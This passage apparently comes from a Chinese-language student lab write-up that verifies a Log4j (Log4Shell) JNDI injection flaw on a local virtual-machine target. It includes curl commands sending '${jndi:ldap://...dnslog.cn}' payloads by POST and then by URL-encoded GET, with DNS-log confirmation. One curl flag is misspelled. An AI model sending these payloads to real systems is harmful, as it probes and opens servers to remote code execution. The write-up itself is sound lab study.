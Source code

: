 2. 在虚拟机中尝试发送 `POST` 请求，查看是否能够成功触发漏洞。很明显，没有成功。(图片和前面图片的端口不同是因为尝试了多次，但截了这一次的图)
    ```sh
    curl -X POST http://192.168.198.13:31388/hello -d 'payload="${jndi:ldap://v89v2i.dnslog.cn/ajdjd}"' 
    ```
   <div><img src="img/6_尝试POST.png" width=100%></div>
   
   - 再看漏洞代码片段，与老师视频中不同，我们的漏洞代码中 `payload` 是通过 `GET` 请求传参的，而不是 `POST` 请求。但是使用 `GET` 请求 dnslog 网站没有 record。
   <div><img src="img/7_漏洞中是GET.png" width=100%></div>

3. 将 `payload` 改为 `GET` 请求的方式，并使用 url 编码，成功发送请求。
   ```sh
   curl -G http://192.168.198.13:31388/hello --data-ulencode 'payload="${jndi:ldap://tq8lht.dnslog.cn}"'
   ```
   <div><img src="img/8_验证漏洞可利用性.png" width=100%></div>

   - 同时查看 dnslog 网站，新增了两条记录，也就是说它解析了两次这个域名。成功验证漏洞可利用性。
   <div><img src="img/8_dnslog记录的record.png" width=100%></div>